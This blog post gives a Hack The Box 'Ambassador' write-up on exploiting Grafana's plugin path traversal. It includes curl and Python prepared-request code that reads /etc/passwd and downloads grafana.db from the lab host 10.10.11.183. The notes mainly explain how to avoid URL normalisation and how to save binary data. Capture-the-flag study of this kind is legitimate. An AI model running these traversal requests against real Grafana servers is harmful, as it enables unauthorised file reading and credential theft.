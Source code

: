 +++
author = "Frenchie"
title = "Ambassador HTB"
date = "2023-01-29"
description = "Ambassador HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

While doing manual LFI at grafana endpoint, I tried to exfill sqlite3 db from /var/lib/grafana/grafana.db

<!--more-->

The initial code:
```python
if r.status_code == 200:
    print(r.text)
```

Using r.text from requests library caused sqlite3 db became corrupted.
Need to use proper method.
```python
if r.status_code == 200:
    with open("grafana-python.db", "wb") as file:
        file.write(r.content)
```

Use requests.content instead of requests.text for bytes-type data.
[Docs](https://requests.readthedocs.io/en/latest/user/quickstart/#binary-response-content)

---

For sending GET requests without url normalization, use curl with --path-as-is

```text
curl --path-as-is http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd -x 127.0.0.1:8080
```

With requests module in python3, using requests.get will not work. Need to use prepared requests.
[Docs](https://requests.readthedocs.io/en/latest/user/advanced/#prepared-requests)

```python
import requests

url = 'http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd'
proxies = {"http": "127.0.0.1:8080"}
s = requests.Session()
req = requests.Request(method='GET', url=url)
prep = req.prepare()
prep.url = url
r = s.send(prep, verify=False, timeout=3)
# r = s.send(prep, verify=False, timeout=3, proxies=proxies)  # WILL NOT WORK WITH PROXIES
print(r.text)
```

> CANNOT using proxies in prepared requests. The url will get normalized!

---

Curl can work without specifying protocol scheme.
```bash
curl 10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd --path-as-is
```

in Python3, without protocol scheme (http/https) requests will error: No connection adapters were found.

> Without the http:// part, requests has no idea how to connect to the remote server.
>
>Note that the protocol scheme must be all lowercase; if your URL starts with HTTP:// for example, it won’t find the http:// connection adapter either.
> — <cite>[source](https://stackoverflow.com/questions/15115328/python-requests-no-connection-adapters)</cite>

> Remember typing http!